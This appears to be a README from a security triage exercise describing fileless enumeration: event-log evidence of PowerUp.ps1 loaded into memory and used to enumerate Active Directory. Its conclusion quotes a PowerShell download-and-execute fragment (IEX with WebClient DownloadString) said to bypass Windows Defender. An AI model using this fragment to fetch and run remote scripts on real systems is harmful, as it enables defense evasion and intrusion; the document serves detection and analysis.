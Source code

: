 # Fileless Enumeration

![Fileless Download](resources/FIleless.png)

## Table of content

  1. [SECURITY EVENTS TRIAGE](#security-events-triage)
  2. [VULNERABILITY DETECTION](#vulnerability-detection)  
  3. [CONSLUSIONS](#conclusions)


## SECURITY EVENTS TRIAGE
## Table of content 

  1.1 [ACTIVE DIRECTORY SIDE](#active-directory-side)
  1.2 [CLIENT01 SID](#client01-side)
  
### ACTIVE DIRECTORY SIDE
After security events triage, the most important evidences could be find on the following list :

```
EVTX:
4104 x 49

```
Powershell load the script [PowerUp.ps1] on dynamic process memory:

![fileless Load_powerup](resources/fileless_load_1.png)

![fileless Load_powerup](resources/fileless_load_1.png)

### CLIENT01 SIDE
After security events triage, the most important evidences could be find on the following list :

```
EVTX:
5156

```
![Python Server](resources/python_server.png)

## VULNERABILITY DETECTION

This section not contains vulnerabilities, the threat user abusse the privileges of user [worker01] for enumerate the Active Directory and look for the attack vector: 

![fileless output](resources/Fileless_ActiveDirectory.png)

## CONCLUSIONS

The threat actor, load directly on memory the required ps1 scripts for enumeration and bypass the Windows Defender RealTime monitoring using the following command:

```
IEX (New-Object net.webclient).DownloadString
```
